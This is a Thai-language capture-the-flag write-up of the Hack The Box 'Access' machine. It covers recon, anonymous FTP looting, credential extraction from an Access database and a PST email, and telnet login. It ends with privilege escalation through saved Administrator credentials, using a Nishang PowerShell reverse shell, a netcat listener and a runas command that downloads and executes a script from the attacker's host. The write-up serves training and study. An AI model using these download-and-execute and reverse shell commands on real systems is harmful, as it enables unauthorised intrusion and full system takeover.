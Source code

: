 # Recon 

```bash
sudo ../Tools/scan.sh 10.10.10.98 
[*] Running rustscan...
[*] Running nmap on ports: 21,23,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 09:44 +07
Nmap scan report for 10.10.10.98
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -21m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds

```

## TCP 80 

![[Challenge/HTB Challenge/Access/IMG/001.png]]

### Directory Bruteforce 
```bash
feroxbuster -u http://10.10.10.98 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.98
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      156c http://10.10.10.98/aspnet_client => http://10.10.10.98/aspnet_client/
200      GET      274l     1766w   162337c http://10.10.10.98/out.jpg
200      GET       14l       31w      391c http://10.10.10.98/
301      GET        2l       10w      167c http://10.10.10.98/aspnet_client/system_web => http://10.10.10.98/aspnet_client/system_web/
400      GET        6l       26w      324c http://10.10.10.98/error%1F_log
400      GET        6l       26w      324c http://10.10.10.98/aspnet_client/error%1F_log
400      GET        6l       26w      324c http://10.10.10.98/aspnet_client/system_web/error%1F_log
[####################] - 41s    79759/79759   0s      found:7       errors:0      
[####################] - 29s    26584/26584   919/s   http://10.10.10.98/ 
[####################] - 29s    26584/26584   928/s   http://10.10.10.98/aspnet_client/ 
[####################] - 25s    26584/26584   1062/s  http://10.10.10.98/aspnet_client/system_web/                   
```

## TCP 21 

```bash
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls 
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd ./Backups
250 CWD command successful.

ftp> bin
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************|  5520 KiB    2.47 MiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:02 (2.47 MiB/s)

```

# Backup.mdb 

```bash
file backup.mdb 
backup.mdb: Microsoft Access Database

sudo apt install mdbtools -y 

mdb-tables ./backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEEx

mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```



# Access Control.pst

```bash
7z x Access\ Control.zip 

7-Zip 24.09 (arm64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit arm_v:8-A locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok

Size:       271360
Compressed: 10870
                                             
```

ข้อมูลก่อนหน้าเราจะได้ข้อมูล Password มาด้วย ให้ทำการทดสอบแตกไฟล์และใช้รหัสผ่านเป็น 'access4u@security' ก็จะสามารถแตกไฟล์ได้
![[Challenge/HTB Challenge/Access/IMG/002.png]]

หากเราตรวจสอบข้อมูลของไฟล์ Access Control.pst จะพบว่าเป็นไฟล์อีเมลล์ของ outlook โดยเราสามารถใช้คำสั่ง readpst ได้ 

```bash
sudo apt install pst-utils -y


readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.

```

เมื่อเราใช้คำสั่ง read pst เมล์ต่างๆ จะอยู่ใน Format ที่สามารถอ่านได้ 
![[Challenge/HTB Challenge/Access/IMG/003.png]]

ซึ่งหลังจากที่เราอ่านจะทำให้เราเห็นข้อความที่น่าสนใจ 

```mail
Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John

```

# Shell as security 
## TCP 23 Telnet 

เราสามารถทดสอบด้วย Telnet ซึ่งจะทำให้เราสามารถเข้าถึงเป้าหมายได้ 
![[Challenge/HTB Challenge/Access/IMG/004.png]]

# Shell as admin

```powershell
cd C:\Users\Public\Desktop\
type "ZKAccess3.5 Security System.lnk"
```
![[Challenge/HTB Challenge/Access/IMG/005.png]]

จากการวิเคราะห์พบว่าไฟล์ .lnk มีการเรียกใช้คำสั่ง runas พร้อมกับ flag /savedcred ซึ่งบ่งชี้ว่าอาจมีการเก็บข้อมูล credentials (บัญชีผู้ใช้และรหัสผ่าน) ของ Administrator ไว้ในระบบแล้ว และเพื่อยืนยันข้อสันนิษฐานหรือใช้ในกระบวนการตรวจสอบก่อนพบไฟล์ .lnk ก็สามารถใช้คำสั่ง:

```powershell
cmdkey /list
```

![[Challenge/HTB Challenge/Access/IMG/006.png]]

จากเหตุการณ์ดังกล่าวทำให้เราทราบได้ว่า user administrator ได้ถูกเก็บไว้บนเครื่องเป้าหมายแล้ว 

## Privesc 

เราจะใช้ **Nishang** ซึ่งเป็นชุด PowerShell script สำหรับงาน post-exploitation โดยจะเริ่มจากการ **clone** โค้ด Nishang จาก GitHub ถ้ายังไม่มีในเครื่อง

```bash
git clone https://github.com/samratashok/nishang.git
### Using Invoke-PowerShellTcp.ps1 
cp ./nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/shell.ps1
```

![[Challenge/HTB Challenge/Access/IMG/007.png]]
เราจะเพิ่ม Config สำหรับทำ reverse shell จากไฟล์ Invoke-PowerShellTcp.ps1  โดยเราเพิ่มบรรทัดสุดท้ายตามภาพ จากนั้นฝั่ง kali linux เราก็จะทำการรอรับ Reverse shell

```bash
# Attacker 
updog -p 80   
rlwrap nc -lvmp 443


## Victim 
C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
```

![[Challenge/HTB Challenge/Access/IMG/008.png]]

# Pwned 